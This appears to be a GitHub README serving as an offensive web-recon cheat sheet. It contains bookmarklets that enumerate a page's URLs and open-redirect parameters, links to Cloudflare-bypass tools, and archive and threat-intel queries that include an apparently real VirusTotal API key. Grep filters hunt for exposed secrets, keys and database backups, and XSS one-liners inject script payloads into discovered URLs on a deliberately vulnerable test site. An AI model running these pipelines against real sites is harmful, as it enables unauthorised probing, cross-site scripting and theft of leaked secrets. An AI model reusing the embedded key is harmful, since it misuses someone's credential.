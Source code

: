 # web_eb

```javascript
javascript:void(function(){let e=document.createElement('div');e.style.cssText='position:fixed;bottom:0;left:0;width:100%;height:300px;background:#1a1a1a;color:#00ff00;z-index:999999;padding:20px;overflow:auto;font-family:monospace;';e.innerHTML='<h3%20style="color:#00ff00">%F0%9F%94%8D%20BlackLine%20Scanner</h3><div%20id="results">Scanning...</div>';document.body.appendChild(e);let%20currentDomain=window.location.hostname;let%20foundUrls=new%20Set();function%20findUrls(){let%20urls=[];let%20sources=[...document.getElementsByTagName('a'),...document.getElementsByTagName('script'),...document.getElementsByTagName('img'),...document.getElementsByTagName('link'),...document.getElementsByTagName('form')];sources.forEach(element=>{if(element.href)urls.push(element.href);if(element.src)urls.push(element.src);if(element.action)urls.push(element.action);});let%20content=document.documentElement.innerHTML;let%20urlPattern=/(?:url\(|href="|src="|action="|url:|endpoint:|path:|route:)\s*['"]?([^'"\)\s>]+)/gi;let%20match;while((match=urlPattern.exec(content))!==null){if(match[1]&&!match[1].startsWith('data:'))urls.push(match[1]);}let%20scriptPattern=/"[^"]*"|'[^']*'/g;let%20scripts=document.documentElement.innerHTML.match(scriptPattern)||[];scripts.forEach(script=>{let%20urlMatches=script.match(/(?:\/[a-zA-Z0-9_-]+)+(?:\.[a-zA-Z0-9]+)?/g)||[];urlMatches.forEach(url=>urls.push(url));});performance.getEntriesByType('resource').forEach(entry=>urls.push(entry.name));return[...new%20Set(urls)];}let%20allUrls=findUrls();allUrls.sort();document.getElementById('results').innerHTML=`%20<div%20style="margin:10px%200;color:#00ff00">%E2%9C%85%20Found%20${allUrls.length}%20URLs%20&%20Endpoints%20on%20${currentDomain}</div>%20<div%20style="background:#2a2a2a;padding:10px;border-radius:5px">%20${allUrls.map(url=>`<div%20style="color:white;margin:5px%200;padding:5px;background:#333;border-radius:3px;word-break:break-all">${url}</div>`).join('')}%20</div>`;})();
```

## open redirect
```javascript
javascript:void(function(){let e=document.createElement('div');e.style.cssText='position:fixed;bottom:0;left:0;width:100%;height:500px;background:#1a1a1a;color:#00ff00;z-index:999999;padding:20px;overflow:auto;font-family:monospace;';e.innerHTML='<h3%20style="color:#00ff00">%F0%9F%94%8E%20Open%20Redirect%20Vulnerability%20Scanner</h3><div%20id="results">Scanning...</div>';document.body.appendChild(e);let%20currentDomain=window.location.hostname;let%20foundUrls=new%20Set();function%20findOpenRedirects(){let%20urls=[];let%20redirectParams=['redirect','url','return','destination','next','continue'];let%20sources=[...document.getElementsByTagName('a'),...document.getElementsByTagName('form')];sources.forEach(element=>{if(element.href){redirectParams.forEach(param=>{if(element.href.includes(param+'='))urls.push(element.href);});}if(element.action){redirectParams.forEach(param=>{if(element.action.includes(param+'='))urls.push(element.action);});}});let%20content=document.documentElement.innerHTML;let%20urlPattern=/(?:url\(|href="|src="|action="|url:|endpoint:|path:|route:)\s*['"]?([^'"\)\s>]+)/gi;let%20match;while((match=urlPattern.exec(content))!==null){if(match[1]&&!match[1].startsWith('data:'))redirectParams.forEach(param=>{if(match[1].includes(param+'='))urls.push(match[1]);});}return[...new%20Set(urls)];}let%20openRedirects=findOpenRedirects();openRedirects.sort();document.getElementById('results').innerHTML=`<div%20style="margin:10px%200;color:#00ff00">%E2%9C%94%20Found%20${openRedirects.length}%20Potential%20Open%20Redirect%20URLs%20on%20${currentDomain}</div><div%20style="background:#2a2a2a;padding:10px;border-radius:5px">${openRedirects.map(url=>`<div%20style="color:white;margin:5px%200;padding:5px;background:#333;border-radius:3px;word-break:break-all">${url}</div>`).join('')}</div>`;})();
```

- __[1 Cloudflare Bypass](https://github.com/sarperavci/CloudflareBypassForScraping)__
- __[2 Cloudflare Bypass](https://github.com/christophetd/CloudFlair.git)__


### RECON METHOD BY ~/.COFFINXP
```php
https://web.archive.org/cdx/search/cdx?url=*.example.com/*&collapse=urlkey&output=text&fl=original

https://www.virustotal.com/vtapi/v2/domain/report?apikey=982680b1787fa59701919aa22515a025e00df1e3bb2bc4f186b8e919558d576c&domain=example.com

https://otx.alienvault.com/api/v1/indicators/hostname/domain.com/url_list?limit=500&page=1

curl -G "https://web.archive.org/cdx/search/cdx" --data-urlencode "url=*.example.com/*" --data-urlencode "collapse=urlkey" --data-urlencode "output=text" --data-urlencode "fl=original" > out.txt

cat out.txt | uro |  grep -E '\.xls|\.xml|\.xlsx|\.json|\.pdf|\.sql|\.doc|\.docx|\.pptx|\.txt|\.zip|\.tar\.gz|\.tgz|\.bak|\.7z|\.rar|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.gz|\.config|\.csv|\.yaml|\.md|\.md5|\.exe|\.dll|\.bin|\.ini|\.bat|\.sh|\.tar|\.deb|\.rpm|\.iso|\.img|\.apk|\.msi|\.dmg|\.tmp|\.crt|\.pem|\.key|\.pub|\.asc'
```

### xss oneliner

```
echo "testphp.vulnweb.com" | waybackurls | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | urldedupe -s | grep -IE "[?].*[&]?" | grep "=" | unew -p | pvreplace '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' | xsschecker -match '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' -vuln
```

- ```echo "testphp.vulnweb.com" | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln```

- `echo "testphp.vulnweb.com" | katana -passive -pss waybackarchive,commoncrawl,alienvault | uro | gf xss | Gxss -p XSSRef | dalfox pipe`

- `subfinder -d testphp.vulnweb.com -all -silent | katana -passive -pss waybackarchive,commoncrawl,alienvault | uro | gf xss | Gxss -p XSSRef | dalfox pipe`
  __Tools used__
- __[waybackurls](https://github.com/tomnomnom/waybackurls.git)__
- __[urldedupe](https://github.com/ameenmaali/urldedupe.git)__
- __[unew](https://github.com/rix4uni/unew)__
- __[pvreplace](https://github.com/rix4uni/pvreplace)__
- __[xsschecker](https://github.com/rix4uni/xsschecker)__
